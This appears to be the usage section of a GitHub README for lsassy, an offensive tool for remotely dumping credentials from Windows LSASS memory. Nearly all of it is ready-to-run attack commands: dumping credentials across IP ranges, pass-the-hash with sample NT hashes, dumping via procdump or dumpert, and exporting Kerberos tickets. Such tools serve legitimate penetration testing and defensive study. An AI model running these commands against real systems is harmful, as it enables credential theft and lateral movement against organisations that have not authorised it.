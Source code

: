 
#### Basic Usage

 lsassy -u Administrator -H {Hash} -d {domain} {IP} --users
lsassy [-d domain] -u pixis -p P4ssw0rd targets
lsassy [-d domain] -u pixis -H [LM:]NT targets

#### Kerberos
- **lsassy** can authenticate with Kerberos. It requires a valid TGT in `KRB5CCNAME`environment variable. See [advanced usage](https://github.com/Hackndo/lsassy/blob/master/Lsassy-Advanced-Usage#kerberos) for more details.
lsassy -k targets

#### Examples
```
 lsassy -d hackn.lab -u pixis -p P4ssw0rd 192.168.1.0/24
 lsassy -d hackn.lab -u pixis -p P4ssw0rd 192.168.1.1-10
 lsassy -d hackn.lab -u pixis -p P4ssw0rd hosts.txt
 lsassy -d hackn.lab -u pixis -p P4ssw0rd 192.168.1.1-192.168.1.

lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab -m procdump    -O procdump_path=/opt/Sysinternals/procdump.exe
lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab -m dumpert     -O dumpert_path=/opt/dumpert.exe
lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab -m dumpertdll  -O dumpertdll_path=/opt/dumpert.dll
```

#### Kerberos tickets harvesting
- Kerberos tickets will be extracted and saved to `$HOME/.config/lsassy/tickets` in `kirbi` format. You can specify output directory using `-K [directory]` or `--kerberos-dir [directory]` parameter. If this directory doesn't exist, the tool will attempt to create it before outputing tickets.

lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab -K '/tmp/kerberos_tickets'

### Authentication methods
- There are three different ways to authenticate against remote targets using **lsassy**. The only requirement is that the user needs to have local administration rights on the remote targets.

#### Cleartext credentials
```
## Local user
lsassy -u pixis -p P4ssw0rd server01.hackn.lab

## Domain user
lsassy -d hackn.lab -u jsnow -p WinterIsComing server01.hackn.lab
```

#### Pass-the-hash
```
lsassy -d hackn.lab -u jsnow -H 38046f6aa4f7283f9a6b7e1575452109 server01.hackn.lab
aad3b435b51404eeaad3b435b51404ee

## Or

lsassy -d hackn.lab -u jsnow -H aad3b435b51404eeaad3b435b51404ee:38046f6aa4f7283f9a6b7e1575452109 server01.hackn.lab
```

If you don't want tickets to be exported, you can use `--no-tickets` flag

You can decide how many thread you want to use [1-256] using `--threads`parameter.